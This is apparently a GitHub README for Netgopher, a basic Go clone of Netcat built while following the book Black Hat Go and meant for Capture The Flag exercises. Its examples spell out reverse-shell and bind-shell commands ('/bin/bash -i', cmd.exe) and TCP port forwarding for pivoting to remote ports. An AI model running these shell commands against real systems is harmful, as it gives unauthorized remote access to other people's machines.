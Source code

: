 # Netgopher

This is a basic Go implementation of (some functions of) Netcat and has been produced whilst working through the very-excellent NoStarch Press book [Black Hat Go](https://nostarch.com/blackhatgo) (which wins best cover too IMO). 

This implementation of Netcat is basic and has been built up piecemeal whilst following various book sections. Notably, this tool is TCP only, with limited features (no hexdump etc.). That said, Netgopher does most things I want Netcat to do during Capture The Flag exercises, including simple out of the box port realying.

```
❯ ng                                                                                                 ─╯
Usage of ng:
  -c value
        Make a TCP Connection : -c 127.0.0.1:8080
  -e string
        Execute a command (quote) : -e '/bin/bash -i'
  -h    Print detailed usage.
  -l value
        Listen on a port : -l 4444
  -v    Display detailed progress messages.
```

# Installation

You can get Netgopher easily with:

```
❯ go get -u "github.com/blackfell/ng"
```

But this will only install in your local $GOPATH; additionally, the binary will be fairly large, compiled only for your OS. I usually just grab a copy of all the [released binaries](/releases), which have been cross compileed and stripped down to ~ 2MB. 

# Examples

## Basic Usage

The simplest examples are the classic netcat connect and listen functions. You can try this out with a pair of listeners:

![Listener & connect example image](assets/basic.gif)

## CTF Use Cases

Some really common use cases I have are:

Start an interactive Bash shell and connect back to a remote listener:
```
# Start a listener on your remote machine
❯ ng -l 1234
# Start the shell
❯ ng -c remote_host:1234 -e '/bin/bash -i'
```

Or start the same shell on a bind listener; this is useful because you can create as many conenctions as you like - if your shell drops, just re-connect.
```
❯ ng -l 1234 -e 'cmd.exe'
# Now connect up to the shell
❯ ng -c serving_host:1234
C:\Windowss\system32>
^C
# Oh no! Your shell dropped - try again:
❯ ng -c serving_host:1234
C:\Windowss\system32>

```

Forward a TCP port back to a remote listener:
```
# Start a relay on your local host
❯ ng -l 1234 -l 445
# On your remote host, forward a connection to local port 445
❯ ng -c remote_host:1234 -c 127.0.0.1:445
# Your local machine now has access to that remote port 445 on 127.0.0.1:445
```

Port 'spoofing' - Forward incoming connections to local port:
```
# Listen on port 1234 and forward connections to ssh server
❯ ng -l 1234 -c 127.0.0.1:22
```

# Feedback?

Issues, pulls, emails, tweets all welcome!
